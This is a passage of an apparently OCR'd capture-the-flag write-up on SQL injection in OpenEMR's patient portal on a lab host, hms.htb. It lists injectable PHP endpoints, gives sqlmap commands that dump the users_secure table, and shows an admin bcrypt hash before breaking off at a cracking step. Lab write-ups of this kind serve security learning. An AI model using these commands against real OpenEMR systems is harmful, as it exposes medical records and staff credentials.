 	  -add_edit_event_user.php
	  -find_appt_popup_user.php
	  -get_allergies.php-get_amendments.php
	  -get_lab_results.php-get_medications.php
	  -get_patient_documents.php
	  -get_problems.php
	  -get_profile.php-portal_payment.php
	  -messaging/messages.php
	  -messaging/secure_chat.php
	  -report/pat_ledger.php
	  -report/portal_custom_report.php
	  -report/portal_patient_report.php

* as document say from registration page we can modify these pages requests and access to the database using sql injection

**how**

* navigating to the registration page
* request for `hms.htb/portal/add_edit_event_user.php?eid=1`
* sqli `eid='`through an sql error

### sqlmap

* **Frist**, capture `hms.htb/portal/add_edit_event_user.php?eid=1` from `registration page` in burpSuite.
* **Second**, than dump data using sqlmap tool,

	  sqlmap -r emr.req --dbs --batch
	  sqlmap -r emr.req --dbs --batch openemr --tables
	  sqlmap -r emr.req --dbs --batch openemr -T users_secure --dump

* in the dump i found `user:hash`

	  Database: openemr
	  Table: users_secure
	  [1 entry]
	  +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+
	  | id   | salt                           | username      | password                                                     | last_update         |
	  +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+
	  | 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 |
	  +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+
	  ...[snip]...


*ippsec manual sqli [video](https://www.youtube.com/watch?v=kfLU5-Eeyhw&t=1390s)*

#### john

**hash :** `openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B`
